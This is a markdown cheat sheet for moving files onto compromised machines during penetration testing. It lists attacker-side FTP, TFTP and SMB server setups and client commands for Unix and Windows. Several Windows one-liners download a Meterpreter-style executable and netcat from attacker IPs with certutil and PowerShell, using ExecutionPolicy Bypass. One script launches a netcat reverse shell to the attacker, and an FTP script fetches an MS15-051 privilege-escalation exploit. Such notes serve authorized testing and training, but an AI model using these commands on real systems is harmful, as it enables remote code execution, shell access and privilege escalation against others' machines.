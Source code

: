 # File transfert



## Server ftp

pip install pyftpdlib
python -m pyftpdlib -p 21



## Server http


## Server tftp

service atftpd start
Complicated to configure...

Metasploit, like with FTP, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT

## SMB server

Enter smbserver.py, part of the Impacket project [https://github.com/SecureAuthCorp/impacket] 
[tools/impacket-impacket_0_9_19.zip]
To launch a simple SMB server on port 445, just specify a share name and the path you want to share:

````
# python smbserver.py ROPNOP /root/shells
````


## Client Unix


wget, fetch, ftp, tftp



## Client windows

### http

````
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
````

````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')"
````

````
echo $storageDir = $pwd > upload.ps1
echo $url = "http://192.168.168.169/nc.exe" >> upload.ps1
echo $file = "$storageDir\nc.exe" >> upload.ps1
echo (New-Object System.Net.WebClient).DownloadFile($url,$file) >> upload.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File upload.ps1
````

Run reverse netcat connection and connect to attacker:
````
echo $secpasswd = ConvertTo-SecureString "myPassword1" -AsPlainText -Force >script.ps1
echo $mycreds = New-Object System.Management.Automation.PSCredential ("admin", $secpasswd) >>  script.ps1
echo $computer = "User-PC" >> script.ps1
echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.169 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> script.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File script.ps1
````


### ftp

echo open 10.10.14.6>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get ms15051.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt


### tftp

tftp -i A.B.C.D GET filename

New version of windows: activate it : 
pkgmgr /iu:"TFTP" 


### smb

smbclient -L 10.10.14.30 --no-pass
net view \\10.10.14.30
dir \\10.10.13.30\ROPNOP
copy  \\10.10.13.30\ROPNOP\file.exe .


